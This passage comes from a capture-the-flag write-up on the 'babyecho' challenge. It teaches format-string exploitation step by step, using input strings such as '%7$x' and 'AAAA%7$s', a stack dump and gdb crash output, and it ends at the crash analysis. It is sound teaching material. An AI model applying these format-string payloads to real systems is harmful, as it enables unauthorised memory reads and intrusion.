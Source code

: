 ```
8:0x78243825
135:0xffffc98c
136:0x8048034
138:0x80924d1
139:0x80704fd
140:0xffffc90a
154:0x80ea570
155:0x18
157:0x2710
158:0x14
159:0x3
160:0x28
161:0x3
163:0x38
165:0x5b
167:0x6e
169:0x77
171:0x7c
175:0x80ea540
...

<p>If you run it a second time and any values change, be sure you <a href="https://stackoverflow.com/questions/5194666/disable-randomization-of-memory-addresses">turn off ASLR</a>. It's totally possible to write an exploit for this challenge that assumes ASLR is on, but it's easier to explain one thing at a time. :)</p>
<h2>Arbitrary memory read</h2>
<p>The values at offset 7 and 8 are actually interesting.. let's take a quick look at them:</p>

$ <span class="in">./babyecho</span>
Reading 13 bytes
<span class="in">%7$x</span>
78243725

<p>What's going on here?</p>
<p>It's printing the hex number 0x78243725, which is the 7th thing on the stack. Since it's <a href="https://en.wikipedia.org/wiki/Endianness">little endian</a>, that's actually "25 37 24 78" in memory, which, if you know your ASCII, is "%7$x". That looks a bit familiar, eh? The first 4 bytes of the string?</p>
<p>Let's try making the first 4 bytes of the string something more recognizable:</p>

$ <span class="in">./babyecho</span>
Reading 13 bytes
<span class="in">AAAA -> %7$x</span>
AAAA -> 41414141
Reading 13 bytes
<span class="in">ABCD -> %7$x</span>
ABCD -> 44434241

<p>So it's printing the first 4 bytes of <em>itself</em>! That's extremely important, because if we now change %...x to %...s, we get:</p>

$ <span class="in">ulimit -c unlimited</span>
$ <span class="in">echo -e 'AAAA%7$s' | ./babyecho</span>

Reading 13 bytes
Segmentation fault (core dumped)

<p>...a crash! And if we investigate the crash:</p>

$ <span class="in">gdb -q ./babyecho ./core</span>
Core was generated by `./babyecho'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x0807f134 in ?? ()
```